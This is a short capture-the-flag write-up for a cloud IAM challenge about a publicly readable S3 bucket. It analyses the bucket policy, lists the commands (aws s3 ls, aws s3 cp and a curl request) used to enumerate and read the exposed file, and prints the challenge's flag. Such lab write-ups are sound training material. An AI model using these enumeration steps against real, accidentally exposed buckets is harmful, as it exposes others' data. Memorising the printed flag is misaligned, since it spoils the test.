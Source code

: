 ## Challange 1

## Challange Statement
Buckets of Fun:
We all know that public buckets are risky. But can you find the flag?

## IAM Policy

{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:GetObject",
            "Resource": "arn:aws:s3:::thebigiamchallenge-storage-9979f4b/*"
        },
        {
            "Effect": "Allow",
            "Principal": "*",
            "Action": "s3:ListBucket",
            "Resource": "arn:aws:s3:::thebigiamchallenge-storage-9979f4b",
            "Condition": {
                "StringLike": {
                    "s3:prefix": "files/*"
                }
            }
        }
    ]
}

### write a short analysis about the IAM policy here
From the above policy, we can see that any body can get object from s3 bucket named thebigiamchallenge-storage-9979f4b. Similarly any body can list the files from the bucket with the condition that the objects are in the files folder i.e. thebigiamchallenge-storage-9979f4b/files.

## Solution

How we can list the files using the following command:
aws s3 ls s3://thebigiamchallenge-storage-9979f4b/files/ 

The above command shows that there are two files in the the source. The files are flag1.txt and logo.png

However, we can see the contents of the flag1.txt file using the following two commands:

aws s3 cp   s3://thebigiamchallenge-storage-9979f4b/files/flag1.txt -
curl https://thebigiamchallenge-storage-9979f4b.s3.amazonaws.com/files/flag1.txt

Both commands shows the the content of the file which is  {wiz:exposed-storage-risky-as-usual} that is the flag of this challangge.

